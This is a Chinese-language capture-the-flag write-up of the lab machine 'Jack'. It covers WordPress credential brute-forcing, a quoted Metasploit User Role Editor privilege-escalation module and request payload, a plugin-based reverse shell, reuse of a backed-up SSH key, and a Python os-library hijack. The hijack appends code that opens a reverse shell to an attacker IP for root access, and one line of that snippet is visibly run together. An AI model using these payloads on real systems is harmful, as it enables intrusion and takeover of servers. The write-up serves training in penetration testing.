## 初始信息

IP：10.10.250.233->jack.thm

服务器中运行了位置python脚本

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -vv -T4 10.10.250.233
```



**关键发现**:

- 开放80端口运行WordPress 5.3.2
- SSH服务运行于22端口
- 存在445端口（SMB）但无匿名访问
  

### WordPress 信息枚举

```bash
wpscan --url http://jack.thm -e u,p,t
```





但是后续使用`vp`和`ap`参数也没能识别出使用的插件

## 初始化访问

### WordPress 后台凭证爆破

```bash
wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
```



使用爆破出的凭证访问后台



## 权限提升(WordPress)

可以发现此账户非管理员账户,没有主题和插件菜单,未发现其他漏洞点,需要想办法提权到管理员账号获取更多信息

```bash
searchsploit WordPress Privilege Escalation
```



```bash
# 利用代码片段如下
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

......
    register_options(
      [
        OptString.new('TARGETURI',   [true, 'URI path to WordPress', '/']),
        OptString.new('ADMINPATH',   [true, 'wp-admin directory', 'wp-admin/']),
        OptString.new('CONTENTPATH', [true, 'wp-content directory', 'wp-content/']),
        OptString.new('PLUGINSPATH', [true, 'wp plugins directory', 'plugins/']),
        OptString.new('PLUGINPATH',  [true, 'User Role Editor directory', 'user-role-editor/']),
        OptString.new('USERNAME',    [true, 'WordPress username']),
        OptString.new('PASSWORD',    [true, 'WordPress password']),
	OptString.new('PRIVILEGES',  [true, 'Desired User Role Editor privileges', 'activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles'])
      ])
  end

 ......
    # Send HTTP POST request - update the specified user's privileges
    print_status("#{peer} - WordPress - Changing privs - #{username}")
    res = send_request_cgi({
      'method'    => 'POST',
      'uri'       => url,
      'vars_post' => {
        '_wpnonce'         => wp_nonce,
        '_wp_http_referer' => URI::encode(url),
        'from'             => 'profile',
        'checkuser_id'     => checkuser_id,
        'color-nonce'      => color_nonce,
        'admin_color'      => 'fresh',
        'admin_bar_front'  => '1',
        'first_name'       => '',
        'last_name'        => '',
        'nickname'         => nickname,
        'display_name'     => display_name,
        'email'            => email,
        'url'              => '',
        'description'      => '',
        'pass1'            => '',
        'pass2'            => '',
        'ure_other_roles'  => datastore['PRIVILEGES'],
        'action'           => 'update',
        'user_id'          => user_id,
        'submit'           => 'Update+Profile'
      },
      'cookie'    => cookie
    })

    # check outcome
    if res and res.code == 302
      print_good("#{peer} - WordPress - Changing privs - OK")
    else
      fail_with("#{peer} - WordPress - Changing privs - Server response (code #{res.code})")
    end
  end
end

# EoF
```

这段代码的关键是新增一个请求参数,并设置对应的权限:

```http
&ure_other_roles=activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles
```





## WebShell获取

```6666
nc -lvnp 6666
```
修改插件源码反弹shell



激活插件后成功获得反弹的shell



## SSH密钥发现

在浏览用户目录时发现以下信息



新线索指向备份目录,检查常见的备份目录位置,在`/var/backups`目录找了一份`ssh`登录密钥



拷贝到本地后尝试通过密钥登录

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.250.233
```
成功以jack用户的密钥登录到服务器


攻击环境下载`pspy64`,之后通过python创建http服务器

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server
```

```bash
wget http://10.10.33.70:8000/pspy64
chmod u+x pspy64
./pspy64
```

发现到一个python脚本,经查询其默认调用的是python2



查看脚本内容



## Root提权

通过代码可以发现脚本功能是调用`curl`将请求127.0.0.1的请求头保存到日志文件中,目的大概是为了服务可用性记录.文件仅root可写

检查了curl和python2,并没有什么异常,但是在检查python2的库文件时发现库文件都属于`family`组



查看`jack`的用户组

```bash
jack@jack:/opt/statuscheck$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```

### Python库劫持攻击

jack也在`family`组中,所以可以通过修改`os`库来进行提权

```bash
# 追加到os文件的末尾
import socket
import ptys=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.33.70", 6665))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

等待脚本被调用

...

成功提升到root权限


